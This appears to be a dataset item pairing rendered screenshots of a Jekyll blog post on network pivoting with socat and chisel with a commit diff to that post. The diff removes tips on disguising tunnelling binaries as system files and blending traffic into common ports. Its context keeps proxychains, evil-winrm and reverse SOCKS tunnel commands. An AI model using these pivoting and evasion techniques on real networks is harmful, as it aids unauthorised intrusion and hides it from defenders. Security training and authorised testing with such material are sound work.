

Before and after one commit to 7anfu/7anfu.github.io, a Jekyll site: the page built from _blog/2025-11-20-pivoting-socat-chisel.md, in a window 1280 px wide and 1400 px high, scrolled down 5244 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; after the commit the page ends 6292 px from its top, so only the background shows below that.

Commit message:
Update 2025-11-20-pivoting-socat-chisel.md

````diff
--- a/_blog/2025-11-20-pivoting-socat-chisel.md
+++ b/_blog/2025-11-20-pivoting-socat-chisel.md
@@ -177,13 +177,6 @@ proxychains evil-winrm -i 192.168.1.10 -u admin -p password
 - Want persistent encrypted tunnels
 - Multiple services to access
 
-## Pro Tips
-
-1. **Hide your binaries** - Rename `chisel` to something innocent like `.systemd` or `update-notifier`
-2. **Use legit ports** - 443, 80, 53 look less sus than 8000
-3. **Clean up** - Kill your tunnels and delete binaries when done
-4. **Chain pivots** - You can pivot through multiple boxes to go deeper
-
 ## Quick Reference
 
 ```bash
@@ -198,5 +191,3 @@ socat TCP-LISTEN:8080,fork TCP:target:80
 ./chisel server --reverse --port 8000
 ./chisel client server-ip:8000 R:socks
 ```
-
-That's it. Now go pivot some networks.
````
